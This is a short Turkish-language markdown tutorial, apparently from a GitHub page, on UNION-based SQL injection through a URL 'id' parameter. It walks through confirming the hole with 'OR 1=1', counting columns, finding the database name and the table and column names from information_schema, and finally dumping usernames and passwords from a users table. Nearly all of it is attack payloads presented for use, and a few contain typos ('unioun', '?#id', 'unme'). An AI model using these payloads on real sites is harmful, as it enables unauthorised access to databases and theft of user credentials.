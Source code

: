 # SQL Enjeksiyonu

1. Sitenin URL'sinde ```...?id=1``` varsa URL'ye ```...?#id=1 OR 1=1``` çalıştırmayı deniyoruz, eğer aynı site çıkıyorsa doğru yoldayız demektir
2. ```...?id=1 OR 1=1 order by 9``` deneyerek kaç sütun olduğunu anlamaya çalışıyoruz. 9 yerine başka sayılar koyup tek tek deniyoruz
3. Örneğin 11 sütun var. ```...?id=1 OR 1=1 union select 1,2,3,4,5,6,7,8,9,10,11``` yazıyoruz
4. Sayfa içinde bir yerde bozukluk buluyoruz. Örneğin 2. sütunda bozukluk var.
5. ```...?id=1 OR 1=1 unioun select 1,database(),3,4,5,6,7,8,9,10,11``` yazarak bozukluk olan yerden ```veritabanı ismini``` öğrenebiliriz
6. ```...?id=1 OR 1=1 union select 1,group_concat(table_name),3,4,5,6,7,8,9,10,11 from information_schema.tables where table_schema=database()``` yazarak tablo isimini öğrenebiliriz
7. ```...?id=1 OR 1=1 union select 1,group_concat(column_name),3,4,5,6,7,8,9,10,11 from information_schema.columns where table_name=0x7573657273(users tablosunun hex hali)``` isimleri hex'e çevirmek için google'a ```text to hex``` yazabiliriz
8. ```...?id=1 OR 1=1 union select 1,group_concat(unme,0x3a,pass),3,4,5,6,7,8,9,10,11 from users``` kullanıcı isimlerini ve şifreleri öğrenebiliriz (0x3a kullanıcı adı ve şifre arasına ":" koyar)
